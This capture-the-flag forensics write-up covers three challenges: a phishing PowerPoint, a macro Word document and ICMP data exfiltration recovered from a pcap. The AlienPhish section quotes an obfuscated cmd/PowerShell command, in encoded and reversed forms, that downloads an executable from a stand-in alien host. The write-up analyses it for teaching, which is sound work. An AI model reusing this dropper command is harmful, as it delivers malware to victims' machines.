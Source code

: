 # Forensics

## AlienPhish

> Solved by : Starry-Lord

* Unzip and find 'Alien Weaknesses.pptx'
* Unzip again and go to ppt/slides/_rels/
* Read slide1.xml.rels to find a suspicious relation tag

```
    cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

* Go to cyberchef 
* From url decode 
* Reverse 

```
    "%=!XCk*:XCk% llac 0 qel X% fi;pma&;pma&!1,X%~:My!!XCk!=XCk tes od)0;1-;221( ni X% L/ rof;pma&;pma&powershell -c "$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"=My tes"C/NO:V/ exe.dmc
```

```
    Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99
```

* From base64 and select the urlSafe alphabet

```
CHTB{pH1sHiNg_w0_m4cr0s???}
```

## Invitation

> Solved By : Starry-Lord

* So we get a docm file. 
* I start by unzippping the word document 
* We get a docm
* Unzip it again and see folders

![](https://i.imgur.com/Q7ZRb7J.jpg)

**PART 1**

* First thing I tried to do after looking around was 

```bash
strings vbaProject.bin
```

* Which gives back interesting hex lines. 

![](https://i.imgur.com/knF1In2.jpg)

* Then decrypt from hex

![](https://i.imgur.com/RNhR8uO.jpg)

* From base64 urlsafe alphabet will show the following 

![](https://i.imgur.com/clunBcD.jpg)

```
CHTB{maldocs_are
```

**PART 2**

* Upload full vbaProject file this time and do the same as before. 

![](https://i.imgur.com/wgeYgSG.jpg)

* Use base64 urlsafe alphabet
* We get second part of the flag by reversing

```
_the_new_meta}
```
```
CHTB{maldocs_are_the_new_meta}
```

---

## Oldest trick in the book

> Solved by : thewhiteh4t


* We are given a pcap which consists of mostly TLS and ICMP traffic
* ICMP looks promising as we can see the header of ZIP file `PK`

![](https://i.imgur.com/bcZ05AG.png)

* Another thing was that the the traffic from both IP address was similar I focused on only one of them


![](https://i.imgur.com/Iq12mh1.png)

* To extract data of all these packets I used tshark

```bash
$ tshark -r older_trick.pcap -T fields -e data.data -Y "ip.src == 192.168.1.7" > 192.168.1.7.txt
```

* After this I looked for duplicate packets in the text file

![](https://i.imgur.com/NoiYgXk.png)

* So we have 10127 unique icmp data packets
* To decode hex and compile all the data I created a small python script
* But I was not getting proper file format of resultant file so I inspected the data
* There were duplicates in the data as well!

```
b7ae04 0000000000 504b0304140000000000729e8d52659b 504b0304140000000000729e8d52659b 504b030414000000
ead104 0000000000 4c6b1800000018000000100000006669 4c6b1800000018000000100000006669 4c6b180000001800
99e804 0000000000 6e692f6164646f6e732e6a736f6e7b22 6e692f6164646f6e732e6a736f6e7b22 6e692f6164646f6e
cafb04 0000000000 736368656d61223a362c226164646f6e 736368656d61223a362c226164646f6e 736368656d61223a
```

* This is the data from first 4 packets for an example
* After first 6 characters we have 10 zeroes
* After that a unique string
* The string is repeated after that
* Then a partial repetition can be seen at the end
* I tried various combinations and in the end only the unique string was needed from each packet i.e `504b0304140000000000729e8d52659b` for first line as an example

```python
#!/usr/bin/env python3
import binascii
msg = []
with open('unique.txt', 'r') as raw:
    raw_arr = raw.readlines()
for line in raw_arr:
    if len(line) == 97:
        line = line.strip()
        line = line[16:48]
        plain = binascii.unhexlify(line)
        msg.append(plain)
with open('result.zip', 'wb') as res:
    for line in msg:
        res.write(line)
```

* The script iterates over each line in the file and skips empty lines if it finds any
* Then it slices of extra characters as stated above
* Then it decodes the hex into binary data and appends it in a file

![](https://i.imgur.com/H2fC7L3.png)

* And we get a proper zip file!
* Here are the extracted contents of the zip

![](https://i.imgur.com/8a1GAJB.png)

* After some enumeration of all files they point towards Mozilla Firefox
* After some googling I found that this is a firefox profile dump
* In linux the default path for profiles is `/home/user/.mozilla/firefox`
* I copied the folder into profiles folder and then edited the `profiles.ini` file present inside it to add the following entry

```
[Profile2]
Name=fini
Path=fini
IsRelative=1
```

* After this I launched firefox from CLI using 

```bash
$ firefox -P
```

* It provides an option to choose a specific profile and launch the browser with it

![](https://i.imgur.com/KZzqT9x.png)

* After the browser launched with the new profile and checked the saved logins and here we have the flag!

![](https://i.imgur.com/dHKQmSM.png)